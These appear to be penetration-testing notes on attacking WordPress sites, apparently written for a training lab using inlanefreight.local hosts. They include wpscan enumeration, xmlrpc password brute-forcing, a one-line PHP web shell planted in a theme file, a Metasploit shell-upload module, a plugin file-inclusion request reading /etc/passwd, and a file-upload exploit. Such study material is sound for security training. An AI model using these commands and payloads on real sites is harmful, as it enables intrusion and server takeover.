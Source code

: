 ### Footprinting + Enumeration
```bash
wpscan --url $url 
wpscan --url $url -e vp     <- Vulnerable plugins
wpscan --url $url -e cb     <- Config backups
wpscan --url $url -e p --plugins-detection aggressive
```

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
```

```bash
curl http://inlanefreight.local/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://blog.inlanefreight.local/wp-sitemap.xml
```

WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.

Discover installed/used themes and plugins
```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
```
Visiting `/wp-content/plugins/realplugin` can uncover `readme`'s with the version

We can discover users by attempting to login via `/wp-admin` and the error messages they produce

### Exploitation
#### **Login bruteforcing**
Two methods, `xmlrpc`(faster api) and the wp-login.
```bash
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

#### RCE
This is possible with Administrative access to the admin panel. This can be done by adding a single line of PHP code within an unused theme then calling upon it.
This should be on an uncommon page like `404.php`
```php
system($_GET[0]);
```

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
This can also be done with Metasploit (`rhost` and `vhost`must be set)
```bash
use exploit/unix/webapp/wp_admin_shell_upload 
```

#### Vulnerable Plugins
##### mail-masta
This plugin suffers from two vulnerabilities [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).
```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
##### wpDiscuz
Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. 
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

